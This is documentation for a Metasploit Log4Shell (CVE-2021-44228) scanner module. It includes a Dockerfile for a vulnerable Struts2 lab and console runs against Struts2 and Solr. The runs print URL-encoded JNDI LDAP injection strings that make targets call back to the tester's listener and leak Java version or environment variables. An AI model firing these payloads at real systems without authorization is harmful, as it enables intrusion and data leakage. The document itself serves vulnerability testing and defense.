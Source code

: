 ## Vulnerable Application
This module will scan an HTTP end point for the Log4Shell vulnerability by injecting a format message that will
trigger an LDAP connection to Metasploit. This module is a generic scanner and is only capable of identifying
instances that are vulnerable via one of the pre-determined HTTP request injection points. These points include
HTTP headers and the HTTP request path. URI paths for common, known-vulnerable applications are included
in the `data/exploits/CVE-2021-44228/http_uris.txt` data file.

This module has been successfully tested with:

* Apache Solr
* Apache Struts2
* Spring Boot
* VMWare VCenter

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/log4shell_scanner`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. Do: `run`
6. The target should be identified as vulnerable

### Apache Struts2 Setup

The following docker file can be used to setup a vulnerable Struts2 instance for testing.

```
#
# To build the image:
#   docker build . -t struts2:2.5.28
# To run the container:
#   docker run --name struts2 --rm -p 8080:8080 struts2:2.5.28
#

ARG version=2.5.28
FROM bitnami/tomcat:9.0
USER root
ENV TOMCAT_PASSWORD password

RUN apt-get update && \
	apt-get -y install unzip && \
	apt-get clean && \
	rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

RUN curl https://archive.apache.org/dist/struts/2.5.28/struts-2.5.28-all.zip > struts-all.zip && \
	unzip struts-all.zip && \
	cp /struts-2.5.28/apps/struts2-showcase.war /bitnami/tomcat/webapps/
```

## Options

### HTTP_METHOD
The HTTP method to use.

### HEADERS_FILE
File containing headers to check, one per line. Lines starting with `#` will be treated as comments.

### URIS_FILE
File containing additional URIs to check, one per line. These values will be appended to the `TARGETURI` option. Lines 
starting with `#` will be treated as comments. Lines may also contain the string `${jndi:uri}` which will be used as the
injection point. This enables query parameters to be included in the request which are required for certain
applications.

### LEAK_PARAMS
Additional parameters to leak, separated by the `^` character. For example the following would leak the USER and PATH
environment variables: `${env:USER}^${env:PATH}`. See the [Log4j Lookups][log4j-lookups] wiki page for more information
on available parameters.

### LDAP_TIMEOUT
Time in seconds to wait to receive LDAP connections.

## Scenarios

### Apache Struts2

```
msf > use auxiliary/scanner/http/log4shell_scanner 
msf auxiliary(scanner/http/log4shell_scanner) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
RPORT => 8080
msf auxiliary(scanner/http/log4shell_scanner) > set TARGETURI /struts2-showcase/
TARGETURI => /struts2-showcase/
msf auxiliary(scanner/http/log4shell_scanner) > run

[*] Started service listener on 192.168.159.128:389 
[+] Log4Shell found via /struts2-showcase/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.159.128%3a389/r7yol50kgg7be/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/log4shell_scanner) > 

```

### Apache Solr

Apache Solr is trivially exploitable by a remote and unauthenticated attacker when in its default configuration:

```
msf > use auxiliary/scanner/http/log4shell_scanner
msf auxiliary(scanner/http/log4shell_scanner) > run http://10.10.235.209:8983/ srvhost=10.9.4.245

[*] Started service listener on 10.9.4.245:389
[+] 10.10.235.209:8983    - Log4Shell found via /solr/admin/cores?action=CREATE&wt=json&name=%24%7bjndi%3aldap%3a/10.9.4.245%3a389/vslscuy7m6q9pgfc18h/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Auxiliary module execution completed
```

[log4j-lookups]: https://logging.apache.org/log4j/2.x/manual/lookups.html
